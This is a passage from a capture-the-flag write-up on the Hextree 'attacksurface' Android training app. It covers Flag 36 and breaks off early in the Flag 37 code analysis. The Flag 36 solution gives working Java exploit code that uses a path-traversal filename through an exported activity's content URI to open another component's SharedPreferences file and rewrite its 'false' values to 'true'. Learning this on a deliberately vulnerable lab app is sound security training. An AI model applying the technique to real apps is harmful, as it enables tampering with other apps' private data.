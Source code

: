 >[!info] A `SharedPreferences` is an object points to a file containing key-value pairs and provides simple methods to read and write them. Each `SharedPreferences` file is managed by the framework and can be private or shared. It's saved in xml format

... now what ?
#### Solution
In flag35 we don't only have read permission but also the write , and since this provider uses root address we can go to where this shared preference is and open and edit file then we need to close the app and open it so that the changes take effect 

```java
Intent intent = new Intent();  
intent.putExtra("filename","../shared_prefs/Flag36Preferences.xml"); //you want secret so dont use it  
intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag35Activity"));  
startActivityForResult(intent,2);

if (requestCode == 2) {  
  
    Log.d("Hextree","URI: "+ data.getData().toString());  
    try {  
        InputStream inputStream = getContentResolver().openInputStream(data.getData());  
        StringBuilder stringBuilder = new StringBuilder();  
        BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));  
        String line;  
  
        while ((line = reader.readLine()) != null) {  
            Log.d("File", "[*]" + line);  
            if (line.contains("false")) {  
                Log.d("File", "[*] /* new rules buddy *\\");  
                line = line.replace("false", "true");  
                Log.d("File", "[*]" + line);  
            }  
            stringBuilder.append(line).append("\n");  
        }  
        reader.close();  
  
        // Write the modified content back to the file  
        OutputStream outputStream = getContentResolver().openOutputStream(data.getData());  
        outputStream.write(stringBuilder.toString().getBytes());  
        outputStream.close();    
  
    } catch (FileNotFoundException e) {  
        throw new RuntimeException(e);  
    } catch (IOException e) {  
        throw new RuntimeException(e);  
    }  
}
```

### Flag 37
#### Code analysis
```java
 @Override
protected void onCreate(Bundle bundle) {
    super.onCreate(bundle);
    this.f = new LogHelper(this);
    
    Uri data = getIntent().getData();
    if (data == null) {
        return;
    }
    try (Cursor cursor = getContentResolver().query(data, null, null, null, null)) {
```